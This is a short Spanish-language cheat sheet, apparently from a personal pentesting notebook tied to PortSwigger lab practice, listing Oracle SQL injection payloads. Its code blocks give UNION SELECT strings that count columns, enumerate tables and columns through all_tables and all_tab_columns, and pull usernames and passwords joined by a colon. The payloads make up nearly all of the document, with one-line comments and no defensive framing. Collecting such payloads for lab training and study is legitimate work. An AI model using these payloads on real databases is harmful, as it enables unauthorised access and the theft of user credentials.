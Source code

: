 # Enumeración DB Oracle 

Tags: #SQLi #PortSwigger #Oracle #BurpSuite 


* [SQLi Cheat Sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Conocer el numero de columnas 

```bash 
❯ ' order by 100-- -        # Ordenamiento con la 100va columna e ir adivinando hasta que no nos marque un error
❯ ' union select NULL,NULL from dual-- -        # Dual es una tabla existente en Oracle
```

## Conocer las tablas de la DB especifica

```bash 
❯ ' union select table_name from all_tables-- -              # Nos muestra las tablas en Oracle
❯ ' union select owner from all_tables-- -                   # Nos muestra las tablas en Oracle de los propietarios
❯ ' union select table_name from all_tables where owner='❮owner_Name❯'-- -
```

## Conocer las columnas de la tabla en la DB especifica

```bash 
❯ ' union select column_name from all_tab_columns where table_name='❮Table_Name❯'-- -   # Mostrar las columnas en Oracle 
```

## Mostrar los datos de las columnas 

```bash 
❯ ' union select username||':'||password from ❮Table_Name❯-- -       # Para que nos muestre los datos de los usuarios y su passwd separados por : 
```